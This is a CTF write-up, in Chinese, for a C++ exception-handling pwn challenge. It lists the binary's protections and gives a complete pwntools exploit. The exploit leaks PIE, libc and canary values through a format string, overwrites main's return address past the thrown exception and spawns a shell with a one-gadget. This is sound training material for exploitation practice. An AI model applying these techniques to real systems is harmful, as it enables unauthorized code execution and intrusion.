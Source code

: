 # exception 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.15|

## 解题思路

考察了C++的异常处理，由于给的信息较多，不一定需要利用异常机制

这道题中，`vuln`中的异常抛出后会被`main`中的catch接住，执行完毕后返回`main`，
因此可以保持`vuln`上内容不变，而写`main`函数的返回地址为OneGadget拿shell

另外，throw时不会对当前函数的stack frame上的Canary做检查

> 在dynamic_or_static上花的时间太久了，这道题没时间做了

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './exception'

def payload(lo:int):
    global sh
    if lo:
        if lo & 2:
            sh = gdb.debug(EXE, 'b if $rdi == $rebase(0x2086)')
        else:
            sh = process(EXE)
    else:
        sh = remote('', 9999)
    elf = ELF(EXE)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.15_amd64/libc.so.6')
    mainArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2

    sh.sendlineafter(b'name\n', b'%15$p,%12$p,%7$p')
    main, arena, canary = map(lambda x: int(x, 16), sh.recvline().decode().split(','))
    pieBase = main - elf.symbols['main']
    libcBase = arena - mainArena
    sh.recvuntil(b'stack\n')
    rsp = int(sh.recvline(), 16)
    success(GOLD_TEXT(f'Leak PIE base: {hex(pieBase)}'))
    success(GOLD_TEXT(f'Leak libc base: {hex(libcBase)}'))
    success(GOLD_TEXT(f'Leak canary: {hex(canary)}'))
    success(GOLD_TEXT(f'Leak rsp: {hex(rsp)}'))
    
    oneGadget = libcBase + 0xe3b04
    # after throw the control flow goes back to main, so we mod ret addr at main
    sh.send(b'0'*0x70 + p64(rsp + 0xa0) + p64(pieBase + elf.symbols['main'] + 168) + # leave rbp and ret addr unchanged
            p64(0) + p64(canary)*4 + p64(oneGadget))

    sh.clean()
    sh.interactive()
```
